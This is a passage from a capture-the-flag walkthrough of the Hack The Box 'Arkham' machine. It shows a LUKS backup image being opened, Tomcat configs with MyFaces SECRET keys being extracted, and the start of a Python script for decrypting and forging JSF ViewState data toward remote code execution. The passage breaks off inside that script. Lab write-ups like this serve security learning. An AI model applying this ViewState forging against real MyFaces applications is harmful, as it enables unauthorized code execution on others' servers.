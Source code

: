 Yeah! Here we go. That didn't take that long. We can now mount this file system in our folder. There also was an easier way to get the files using `binwalk --extract backup.img`. If you use `strings -n 10 backup.img` you can see that you were already able to read files from the image file. Well, cracking passwords is also fun right?

```console
root@kali:~/HTB/Arkham# cryptsetup open backup.img lukss --type luks
Enter passphrase for backup.img: 
root@kali:~/HTB/Arkham# mount /dev/mapper/luks luks
root@kali:~/HTB/Arkham# cd luks
root@kali:~/HTB/Arkham/luks# ls
lost+found  Mask
root@kali:~/HTB/Arkham/luks# cd Mask
root@kali:~/HTB/Arkham/luks/Mask# ls
docs  joker.jpg  me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff
root@kali:~/HTB/Arkham/luks/Mask# cd tomcat-stuff/
root@kali:~/HTB/Arkham/luks/Mask/tomcat-stuff# ls
context.xml  faces-config.xml  jaspic-providers.xml  MANIFEST.MF  server.xml  tomcat-users.xml  web.xml  web.xml.bak
```

It looks like there are a bunch of `Tomcat` config files on here. The most important one is `web.xml.bak`. It contains some secret phrases. Can these be used to decrypt and encrypt `ViewState`s? Let's find out.

```xml
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
[...]
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
```

## Exploit to RCE

From this point on, I started writing a `python` script that would decrypt en encrypt `ViewState` serialization data for me. For a description of how the encryption works, you can go [this doc page](http://myfaces.apache.org/shared12/myfaces-shared-core/apidocs/org/apache/myfaces/shared/util/StateUtils.html). By default it uses `DES` in `ECB` mode for encryption with `HMACSHA1` for `MAC` and `PKCS5Padding` for padding if needed. My first python script looked as follows:

### First working script

```python
import sys
import hmac
import hashlib
import binascii
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

HMACSHA1_SIZE = 20
BLOCK_SIZE = 8

def tohex(s):
    return binascii.hexlify(s)

def make_hmac(message, key):
    digest = hmac.new(key, message, hashlib.sha1)
    signature = digest.digest()
    return signature

def check_hmac(message, hmac, key):
    verify_hmac = make_hmac(message, key)
    if hmac != verify_hmac:
        return False
```
